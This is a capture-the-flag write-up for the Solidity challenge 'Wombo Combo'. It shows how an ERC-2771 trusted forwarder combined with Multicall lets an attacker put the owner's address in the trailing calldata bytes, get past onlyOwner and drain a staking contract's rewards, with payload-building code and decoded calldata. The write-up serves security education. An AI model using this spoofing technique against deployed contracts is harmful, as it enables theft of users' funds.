




# Wombo Combo

<p align="center">Wombo Combo | 295 points</p>

<p align="center">You should stake your tokens to get more tokens!</p>

<p align="center">Author: cairoeth | Flag format: OZCTF{flag}</p>

---

### Goal: Update `rewards[user]` to a value >= `amazingNumber`

The goal of this challenge is to make sure that the `earnedTotal` variable in the `Staking` contract and the rewards token balance of address `0x123` is >= `amazingNumber` with value `1128120030438127299645800`.

The `earnedTotal` variable is only updated in the `getReward` function, which also transfers rewards tokens to the user at the same time. This means that our end goal is to update `rewards[user]` to a value >= `amazingNumber`.

### Analysis

Upon setup of the challenge, `player` was transferred `100` staking tokens and `Staking` contract was transferred `100_000_000` rewards tokens where both tokens are represented in 18 decimals. The only function that updates the `rewards` mapping is `updateReward`, which calls the `earned` function. The `earned` function is dependent on the return value of the `rewardPerToken` function, which relies on the `rewardRate` variable. By default, `rewardRate` is `0` and it is only updated in the `notifyRewardAmount` function. However, the `notifyRewardAmount` function has an `onlyOwner` modifier, which restricts access of this function to the `owner` of the `Staking` contract.

Upon inspection of the `onlyOwner` modifier, `_msgSender()` (an inherited function from `ERC2771Context`) is called to check if the return value is the `owner`. Contracts that inherit `ERC2771Context` is able to configure a trusted forwarder, which will be able to invoke functions on the contract on behalf of other accounts.

In the `_msgSender` function, we observe that if the `msg.sender` is a trusted forwarder, it sets the `sender` field by extracting the last 20 bytes of the `calldata` and returns it. If we can send a transaction with `msg.data` (made up of function selector + function arguments) such that the last 20 bytes is equal to the `owner` address, we might be able to spoof as the owner to make authorized function calls with the `onlyOwner` modifier.

```solidity

    function _msgSender() internal view virtual override returns (address sender) {
        if (isTrustedForwarder(msg.sender)) {
            // The assembly code is more direct than the Solidity version using `abi.decode`.
            assembly {
                sender := shr(96, calldataload(sub(calldatasize(), 20)))
            }
        } else {
            return super._msgSender();
        }
    }

    modifier onlyOwner() {
        require(_msgSender() == owner, "not authorized");
        _;
    }

```

Following this line of thought, let us look at how the `Forwarder` contract works in detail. In the `Forwarder` contract, the `execute` function takes in a `ForwardRequest` struct as `req`, and a signature. The signature is valid if it is an EIP-712 message signed by the address specified in the `req.from` field. Then, the following `CALL` invocation is made:

```solidity

    (bool success, bytes memory returndata) =
        req.to.call{gas: req.gas, value: req.value}(abi.encodePacked(req.data, req.from));

```

`req.to` represents the target smart contract and `req.data` is the encoded function call. The `CALL` invocation makes a function call to the target smart contract and if the function selector is not found, the `fallback` function is called. Note that the `msg.sender` in this case is the forwarder address.

In this context, the original intention is to allow function calls to be made to the `Staking` contract via the `Forwarder`. As the `req.from` is appended behind via `abi.encodePacked(req.data, req.from)`, when the `_msgSender` function is called, the last 20 bytes which supposedly corresponds to `req.from` would be extracted and the actual sender of the request would be set. In a production environment, the forwarder could act as a relay that would help to pay for the user's gas fees to improve user experience.

Apart from `ERC2771Context`, the `Staking` contract also inherits `Multicall`, which implements the `multicall` function. The `multicall` function receives and executes a batch of function calls on the `Staking` contract by taking in an array of bytes (corresponding to encoded function calls) and calls `Address.functionDelegateCall`, resulting in the `DELEGATECALL` opcode to be called. The target of `DELEGATECALL` is `address(this)`, which is the `Staking` contract.

Here is a quick recap on `CALL` vs `DELEGATECALL`:



In our case, the use of `DELEGATECALL` for the `Staking` contract looks like that instead since the target contract of `DELEGATECALL` is the `Staking` contract itself:



At this point, we have two options to interact with the `Staking` contract:

1. Call `Staking` contract functions directly.
2. Send a request to the forwarder, setting `req.to` as the `Staking` contract address, and the forwarder would make a low level `CALL` invocation on our behalf.

Recall earlier that we wish to send a transaction with `msg.data` such that the last 20 bytes is equal to the `owner` address so that we can spoof as the owner to call the `notifyRewardAmount` function. Option 1 is out of the question as the function selector/arguments to be expected are already set in place during compilation and deviations would cause the function call to fail should you try to call the function through a Solidity contract or an external library.

For option 2, we can try to encode the function call for `notifyRewardAmount` with the desired parameters and send it to the forwarder so that it makes a `CALL` invocation on our behalf:

```solidity

  Forwarder.ForwardRequest memory forwardRequest = Forwarder.ForwardRequest({
      from: player,
      to: address(staking),
      value: 0,
      gas: 500_000,
      nonce: forwarder.getNonce(player, timeline),
      deadline: timeline,
      data: abi.encodeWithSelector(staking.notifyRewardAmount.selector, 100_000_000 * 10 ** 18)
  });
  bytes32 digest = _getTypedDataHash(forwardRequest);
  (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPrivateKey, digest);
  forwarder.execute(forwardRequest, abi.encodePacked(r, s, v));

```

Here, the `data` corresponds to `0x3c6b16ab00000000000000000000000000000000000000000052b7d2dcc80cd2e4000000`. `0x3c6b16ab` is the function signature of `notifyRewardAmount(uint256)` and the remaining 32 bytes corresponds to the `_amount` field we passed it. Upon calling the `execute` function, the forwarder would check that a valid signature (`req.from` needs to sign the message) is provided and append address of `player` after `req.data` for the `CALL` invocation as mentioned before. Since `notifyRewardAmount` has the `onlyOwner` modifier, `_msgSender()` would be called, and `sender` would be set to the address of `player`, causing us to fail the require check needed to call `notifyRewardAmount`. So option 2 has its limitations as well. However, what if we utilize the `multicall` function that is inherited by the `Staking` contract?

```solidity

  bytes[] memory payloads = new bytes[](1);
  bytes memory payload = abi.encodeWithSelector(staking.notifyRewardAmount.selector, 100_000_000 * 10 ** 18);
  payloads[0] = payload;
  bytes memory multicallData = abi.encodeWithSelector(staking.multicall.selector, payloads);

  Forwarder.ForwardRequest memory forwardRequest = Forwarder.ForwardRequest({
      from: player,
      to: address(staking),
      value: 0,
      gas: 500_000,
      nonce: forwarder.getNonce(player, timeline),
      deadline: timeline,
      data: multicallData
  });
  bytes32 digest = _getTypedDataHash(forwardRequest);
  (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPrivateKey, digest);
  forwarder.execute(forwardRequest, abi.encodePacked(r, s, v));

```

`multicallData` here corresponds to `0xac9650d800000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000001000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000000243c6b16ab00000000000000000000000000000000000000000052b7d2dcc80cd2e400000000000000000000000000000000000000000000000000000000000000`. Let's try to breakdown the `data` field that we are sending (note that `payloads` is a dynamic type, refer to the [ABI spec](https://docs.soliditylang.org/en/latest/abi-spec.html#use-of-dynamic-types) for more in depth coverage on how dynamic types are encoded):

```

  0xac9650d8                                                        - function signature of `multicall(bytes[])`
  0000000000000000000000000000000000000000000000000000000000000020  - offset (bytes index) at which the bytes array start
  0000000000000000000000000000000000000000000000000000000000000001  - the length of the bytes array
  0000000000000000000000000000000000000000000000000000000000000020  - offset (bytes index) at which the 1st byte array element start
  0000000000000000000000000000000000000000000000000000000000000024  - length of data to read
  3c6b16ab00000000000000000000000000000000000000000052b7d2dcc80cd2  - actual data
  e400000000000000000000000000000000000000000000000000000000000000  - right padded with 0s to make result a multiple of 32 bytes

```

The actual data embedded corresponds to what we have sent earlier `0x3c6b16ab00000000000000000000000000000000000000000052b7d2dcc80cd2e4000000`, which calls the `notifyRewardAmount` function with an amount `100_000_000 * 10 ** 18` (recall that tokens in this challenge are represented in 18 decimals). The difference here compared to what we did earlier is that the `req.from` field (the address of `player`), is not extracted anymore in the `_msgSender()` function of `ERC2771Context`. Let us observe what is actually happening here:



Why isn't `req.from` present in the `calldata` anymore during the `_msgSender()` call? This is what is passed in the `CALL` invocation:

```

  0xac9650d8                                                        - function signature of `multicall(bytes[])`
  0000000000000000000000000000000000000000000000000000000000000020  - offset (bytes index) at which the bytes array start
  0000000000000000000000000000000000000000000000000000000000000001  - the length of the bytes array
  0000000000000000000000000000000000000000000000000000000000000020  - offset (bytes index) at which the 1st byte array element start
  0000000000000000000000000000000000000000000000000000000000000024  - length of data to read
  3c6b16ab00000000000000000000000000000000000000000052b7d2dcc80cd2  - actual data
  e400000000000000000000000000000000000000000000000000000000000000  - right padded with 0s to make result a multiple of 32 bytes
  0432d269d374df8026fd8d4d0842437fb64f9a23                          - address of req.from (ignored)

```

Observe that although the address of `req.from` is still present, the actual data read by the `multicall` function is only `0x3c6b16ab00000000000000000000000000000000000000000052b7d2dcc80cd2e4000000` as only 36 bytes should be read based on the encoding, which is why any extra arguments appended at the end would be ignored by the EVM. `DELEGATECALL` is then called where target is the `Staking` contract, calling the `notifyRewardAmount(uint256)` function. The `msg.sender` remains as the forwarder address and the last 20 bytes would be extracted to identify the "sender".

With this information, we can simply update our payload to include the address of the `owner` set in the `Staking` contract at the end and we can spoof function calls as the owner:

```solidity

  bytes memory payload = abi.encodePacked(
      abi.encodeWithSelector(staking.notifyRewardAmount.selector, 100_000_000 * 10 ** 18), address(owner)
  );

```

Going through the same process as above, the last 20 bytes extracted in the `_msgSender()` function would be the `owner` of the `Staking` contract and we would pass the `onlyOwner` modifer require check, enabling as to make function calls as the owner! Since we can make function calls as the owner, we can call `setRewardsDuration` as well. Here is how the exploit works:

1. Stake 1 staking token (we are given 100 at the start) so that `totalSupply` equals to 1.
2. Spoof as the owner and call `setRewardsDuration` to set `duration` equals to 1. This is needed to set the `rewardRate` later.
3. Spoof as the owner and call `notifyRewardAmount` with `_amount` equals to `100_000_000 * 10 ** 18`. This would set:

- `rewardRate` = `100_000_000 * 10 ** 18`
- `finishAt` = `block.timestamp + 1`
- `updatedAt` = `block.timestamp`

4. Wait for some time (at least 1s) before calling the next function `getReward`. Calling this function would update `rewards[user]` to `100_000_000 * 10 ** 18` via the `updateReward` function and the `Staking` contract would subsequently transfer `100_000_000` staking tokens to the `user`. The variable `earnedTotal` would be updated as well.
5. Transfer the staking tokens to address `0x123` and we are done.

The exploit I used for this challenge is [here](./WomboCombo.s.sol). After executing the exploit, we get our flag!


